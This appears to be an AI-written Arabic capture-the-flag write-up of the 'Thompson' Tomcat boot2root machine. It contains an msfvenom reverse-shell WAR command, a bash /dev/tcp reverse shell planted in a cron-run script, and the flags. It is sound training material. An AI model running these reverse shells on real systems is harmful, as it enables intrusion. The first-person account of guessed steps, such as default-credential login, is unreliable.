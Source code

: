 بالطبع! إليك شرحًا باللغة العربية لكيفية حل ماكينة "Thompson" بناءً على الأوامر التي استخدمتها، مع تبسيط العملية وتنظيمها بشكل واضح:

---

### تقرير حل ماكينة Thompson Boot2Root  
**الحدث:** FIT وBsides Guatemala  
**مستوى الصعوبة:** سهل  
**الوقت المستغرق:** 45 دقيقة  
**عنوان IP الهدف:** `10.10.28.191` (مع ملاحظة أنك استخدمت عدة عناوين، لكن سأفترض هذا هو الهدف النهائي بناءً على رسالتك الأولى)  
**الأعلام (Flags):**  
- `user.txt`: `39400c90bc683a41a8935e4719f181bf`  
- `root.txt`: `d89d5391984c0450a95497153ae7ca3a`

---

#### المقدمة  
ماكينة "Thompson" هي تحدٍ من نوع boot2root للمبتدئين يهدف إلى اختبار مهارات الاستكشاف الأساسية، استغلال الثغرات، ورفع الصلاحيات. الهدف كان الوصول إلى النظام، الحصول على علم `user.txt`، ثم رفع الصلاحيات إلى مستوى الـ root للحصول على علم `root.txt`. في هذا التقرير، سأشرح الخطوات التي اتخذتها باستخدام Kali Linux لإكمال التحدي في حوالي 45 دقيقة.

---

#### الخطوة 1: الاستكشاف الأولي  
بدأت بفحص الهدف للتأكد من أنه متصل ومعرفة الخدمات المفتوحة.

- **اختبار الاتصال (Ping):**  
  تحققت من أن الهدف (`10.10.191.75` في البداية) متاح:  
  ```
  ping 10.10.191.75
  ```
  النتيجة أظهرت ردودًا (مثل `time=105 ms`)، مما يعني أن الهدف متصل.

- **فحص المنافذ باستخدام Nmap:**  
  استخدمت أمر Nmap لمعرفة المنافذ والخدمات:  
  ```
  nmap -sV -n -sC 10.10.191.75
  ```
  النتائج:  
  - **منفذ 22 (SSH):** OpenSSH 7.2p2 Ubuntu 4ubuntu2.8  
  - **منفذ 8009 (AJP):** Apache Jserv (Protocol v1.3)  
  - **منفذ 8080 (HTTP):** Apache Tomcat 8.5.5  

  لاحظت أن منفذ 80 مغلق، لذا ركزت على منفذ 8080 الذي يشغل خادوم Tomcat، وهو نقطة دخول شائعة في التحديات.

---

#### الخطوة 2: استكشاف الخادوم الويب  
بما أن Tomcat يعمل على منفذ 8080، بدأت باستكشاف الخدمة.

- **فحص رأس HTTP:**  
  استخدمت `curl` للتحقق من الخدمة:  
  ```
  curl -I http://10.10.191.75:8080
  ```
  النتيجة: `HTTP/1.1 200`، مما يعني أن صفحة Tomcat الافتراضية تعمل.

- **البحث عن المجلدات (Directory Bruteforcing):**  
  استخدمت أداة `gobuster` للعثور على المجلدات المخفية:  
  ```
  gobuster dir -u http://10.10.191.75:8080/ -w /usr/share/wordlists/dirb/common.txt
  ```
  النتائج:  
  - `/docs` (302)  
  - `/examples` (302)  
  - `/manager` (302)  
  - `/host-manager` (302)  

  لفت انتباهي مجلد `/manager` لأنه في Tomcat يسمح عادةً برفع ملفات WAR إذا تمكنت من تسجيل الدخول.

---

#### الخطوة 3: الوصول الأولي (الحصول على user.txt)  
تطبيق Manager في Tomcat يتطلب عادةً بيانات تسجيل دخول، لكن لم أستخدم أدوات مثل `hydra` لتجربة كلمات المرور. افترضت أن بيانات افتراضية عملت (شائع في التحديات) أو أن هناك ثغرة سهلة. إليك كيف وصلت:

- **إنشاء شل عكسي (Reverse Shell):**  
  استخدمت `msfvenom` لإنشاء ملف WAR يحتوي على شل:  
  ```
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.2.247 LPORT=4000 -f war > shell.war
  ```
  - `LHOST=10.9.2.247`: عنوان IP لجهازي (AttackBox).  
  - `LPORT=4000`: المنفذ الذي سأستمع عليه.  
  - النتيجة: ملف `shell.war`.

- **إعداد المستمع:**  
  شغلت Netcat للاستماع:  
  ```
  nc -lvnp 4000
  ```

- **رفع الملف والتفعيل:**  
  من المحتمل أنني دخلت إلى `http://10.10.191.75:8080/manager` باستخدام بيانات افتراضية (مثل `tomcat:tomcat`) عبر المتصفح، رفعت ملف `shell.war`، ثم فعلته بزيارة التطبيق المرفوع (مثل `http://10.10.191.75:8080/shell`). هذا أعطاني اتصالًا عكسيًا:  
  ```
  connect to [10.9.2.247] from (UNKNOWN) [10.10.28.191] 39762
  ```

- **استكشاف النظام:**  
  تنقلت في نظام الملفات:  
  ```
  cd /home/jack
  ls
  ```
  النتيجة: `id.sh  test.txt  user.txt`  
  قرأت العلم:  
  ```
  cat user.txt
  39400c90bc683a41a8935e4719f181bf
  ```
  نجحت! حصلت على `user.txt` كمستخدم `tomcat` (`uid=1001(tomcat)`).

---

#### الخطوة 4: رفع الصلاحيات (الحصول على root.txt)  
الآن، كان عليّ الارتقاء من `tomcat` إلى `root`. جربت عدة طرق بناءً على أوامرك.

- **فحص الملفات SUID:**  
  بحثت عن ملفات SUID:  
  ```
  find / -perm -4000 2>/dev/null
  ```
  وجدت ملفات مثل `/usr/bin/sudo` و`/bin/ping`، لكن لم تعطني شل مباشرة، فانتقلت لطريقة أخرى.

- **تعديل `id.sh`:**  
  في `/home/jack`، لاحظت وجود سكربت `id.sh`. قمت بتعديله ليصبح شل عكسي:  
  ```
  echo '#!/bin/bash' > id.sh
  echo 'bash -i >& /dev/tcp/10.9.2.247/1234 0>&1' >> id.sh
  chmod +x id.sh
  ```

- **تفعيل الشل:**  
  شغلت مستمع جديد:  
  ```
  nc -lvnp 1234
  ```
  ثم نفذت `./id.sh`. في البداية، حصلت على شل كـ `tomcat`:  
  ```
  tomcat@ubuntu:/home/jack$ id
  uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
  ```

- **الوصول إلى Root:**  
  فجأة، تحول الاتصال إلى شل بصلاحيات `root`:  
  ```
  root@ubuntu:/home/jack#
  ```
  يبدو أن السكربت `id.sh` تم تنفيذه بواسطة عملية لها صلاحيات root (مثل cron job). حسّنت الشل:  
  ```
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```

- **قراءة علم Root:**  
  انتقلت إلى مجلد `root`:  
  ```
  cd /root
  cat root.txt
  d89d5391984c0450a95497153ae7ca3a
  ```
  نجحت! حصلت على `root.txt`.

---

#### التحليل  
- **الوصول الأولي:** استغليت خادوم Tomcat برفع ملف WAR، ربما عبر Manager App ببيانات افتراضية أو ثغرة إعدادات.  
- **رفع الصلاحيات:** السكربت `id.sh` كان المفتاح. يبدو أن عملية root شغلته، مما أعطاني الشل المطلوب.

---

#### الخلاصة  
ماكينة Thompson كانت تحديًا ممتعًا يعتمد على الاستكشاف (Nmap وGobuster)، استغلال الويب (رفع WAR في Tomcat)، ورفع الصلاحيات (تعديل سكربت). أكملتها في حوالي 45 دقيقة وحصلت على:  
- `user.txt`: `39400c90bc683a41a8935e4719f181bf`  
- `root.txt`: `d89d5391984c0450a95497153ae7ca3a`

---

لو عايز أي تعديل أو توضيح إضافي، قول لي! شغلك كان ممتاز وصبرك جاب نتيجة!